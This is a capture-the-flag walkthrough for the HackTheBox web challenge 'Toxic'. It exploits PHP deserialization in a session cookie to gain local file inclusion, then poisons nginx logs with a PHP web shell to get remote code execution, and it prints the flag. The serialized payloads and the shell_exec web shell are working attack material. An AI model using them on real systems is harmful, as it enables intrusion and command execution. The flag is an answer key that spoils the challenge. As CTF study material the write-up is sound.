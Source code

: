 ```yaml
---
Category: Web
Difficulty: Easy
Platform: HackTheBox
Retired: false
Status: 3. Complete
Tags: LFI, code-review, log-poisoning, php-deserialization
---
```

>[!quote]
>*Humanity has exploited our allies, the dart frogs, for far too long, take back the freedom of our lovely poisonous friends. Malicious input is out of the question when dart frogs meet industrialisation. 🐸*


# Set up

-

# Information Gathering

Site:

![Pasted image 20210504210757.png](../../zzz_res/attachments/Pasted_image_20210504210757.png)

Archive:

```
┌──(kali㉿kali)-[~/…/HTB/challange/web/Toxic]
└─$ unzip Toxic.zip
Archive:  Toxic.zip
   creating: web_toxic/
[Toxic.zip] web_toxic/flag password:
 extracting: web_toxic/flag
   creating: web_toxic/config/
  inflating: web_toxic/config/fpm.conf
  inflating: web_toxic/config/supervisord.conf
  inflating: web_toxic/config/nginx.conf
  inflating: web_toxic/Dockerfile
  inflating: web_toxic/build-docker.sh
   creating: web_toxic/challenge/
  inflating: web_toxic/challenge/index.html
  inflating: web_toxic/challenge/index.php
   creating: web_toxic/challenge/models/
  inflating: web_toxic/challenge/models/PageModel.php
   creating: web_toxic/challenge/static/
   creating: web_toxic/challenge/static/css/
  inflating: web_toxic/challenge/static/css/production.css
   creating: web_toxic/challenge/static/images/
 extracting: web_toxic/challenge/static/images/favicon.ico
  inflating: web_toxic/challenge/static/images/dart-frog.jpg
  inflating: web_toxic/challenge/static/images/drift.svg
  inflating: web_toxic/challenge/static/images/newrelic.svg
  inflating: web_toxic/challenge/static/images/instagram.svg
  inflating: web_toxic/challenge/static/images/segment.svg
  inflating: web_toxic/challenge/static/images/flask.svg
  inflating: web_toxic/challenge/static/images/presentor.jpg
  inflating: web_toxic/challenge/static/images/facebook.svg
  inflating: web_toxic/challenge/static/images/bucket.svg
  inflating: web_toxic/challenge/static/images/stripe.svg
  inflating: web_toxic/challenge/static/images/youtube.svg
  inflating: web_toxic/challenge/static/images/aircraft.svg
  inflating: web_toxic/challenge/static/images/ryan3.png
  inflating: web_toxic/challenge/static/images/ryan2.png
  inflating: web_toxic/challenge/static/images/twitter.svg
  inflating: web_toxic/challenge/static/images/zopim.svg
  inflating: web_toxic/challenge/static/images/ryan1.png
  inflating: web_toxic/challenge/static/images/ryan5.png
  inflating: web_toxic/challenge/static/images/woman1.jpg
  inflating: web_toxic/challenge/static/images/logo.svg
  inflating: web_toxic/challenge/static/images/ryan4.png
  inflating: web_toxic/challenge/static/images/ryan6.png
  inflating: web_toxic/challenge/static/images/woman2.jpg
  inflating: web_toxic/challenge/static/images/woman3.jpg
   creating: web_toxic/challenge/static/js/
  inflating: web_toxic/challenge/static/js/production.js
   creating: web_toxic/challenge/static/basement/
  inflating: web_toxic/challenge/static/basement/help.png
  inflating: web_toxic/entrypoint.sh
```

## Important files

**Index.php**

```php
<?php
spl_autoload_register(function ($name){
    if (preg_match('/Model$/', $name))
    {
        $name = "models/${name}";
    }
    include_once "${name}.php";
});

if (empty($_COOKIE['PHPSESSID']))
{
    $page = new PageModel;
    $page->file = '/www/index.html';

    setcookie(
        'PHPSESSID',
        base64_encode(serialize($page)),
        time()+60*60*24,
        '/'
    );
}

$cookie = base64_decode($_COOKIE['PHPSESSID']);
unserialize($cookie);
```

**challenge/models/PageModel.php**

```php
<?php
class PageModel
{
    public $file;

    public function __destruct()
    {
        include($this->file);
    }
}
```

## Cookie are serialized

![Pasted image 20210504211953.png](../../zzz_res/attachments/Pasted_image_20210504211953.png)

# The Bug

## PHP LFI using deserialization

Enumerated users:

`<@base64>O:9:"PageModel":1:{s:4:"file";s:33:"php://filter/resource=/etc/passwd";}<@/base64>`

![Pasted image 20210504221128.png](../../zzz_res/attachments/Pasted_image_20210504221128.png)

# Exploitation

Enumerated conf file:

```bash
┌──(kali㉿kali)-[~/…/challange/web/Toxic/web_toxic]
└─$ cat Dockerfile
...
# Configure php-fpm and nginx
COPY config/fpm.conf /etc/php7/php-fpm.d/www.conf
COPY config/supervisord.conf /etc/supervisord.conf
COPY config/nginx.conf /etc/nginx/nginx.conf
...
```

`<@base64>O:9:"PageModel":1:{s:4:"file";s:21:"/etc/nginx/nginx.conf";}<@/base64>`

![Pasted image 20210504224723.png](../../zzz_res/attachments/Pasted_image_20210504224723.png)

Enumerated log file:

`<@base64>O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}<@/base64>`

![Pasted image 20210504224802.png](../../zzz_res/attachments/Pasted_image_20210504224802.png)

## LFI2RCE - Log Poisoning

Poisoned the logs:

```bash
┌──(kali㉿kali)-[~/CTFs/THM/Buffer-Overflow-Prep/oscp.exe-2]
└─$ nc -nv 138.68.140.56  32248
(UNKNOWN) [138.68.140.56] 32248 (?) open
<?php echo shell_exec($_GET['cmd']); ?>
HTTP/1.1 400 Bad Request
Server: nginx
Date: Tue, 04 May 2021 20:52:50 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 150
Connection: close

<html>
<head><title>400 Bad Request</title></head>
<body>
<center><h1>400 Bad Request</h1></center>
<hr><center>nginx</center>
</body>
</html>
```

Get RCE:

![Pasted image 20210504225420.png](../../zzz_res/attachments/Pasted_image_20210504225420.png)

![Pasted image 20210504225501.png](../../zzz_res/attachments/Pasted_image_20210504225501.png)

![Pasted image 20210504225602.png](../../zzz_res/attachments/Pasted_image_20210504225602.png)

# Flag

>[!success]
>`HTB{P0i5on_1n_Cyb3r_W4rF4R3?!}`